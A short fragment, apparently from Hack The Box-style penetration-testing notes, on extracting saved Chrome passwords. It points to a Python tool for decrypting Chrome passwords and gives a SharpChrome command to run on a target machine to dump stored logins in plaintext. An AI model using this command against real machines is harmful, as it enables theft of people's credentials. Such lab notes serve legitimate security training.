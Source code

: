 https://ohyicong.medium.com/how-to-hack-chrome-password-with-python-1bedc167be3d
https://github.com/ohyicong/decrypt-chrome-passwords

## SharpChrome
Use it on the target machine
```powershell
PS C:\htb> .\SharpChrome.exe logins /unprotect
```
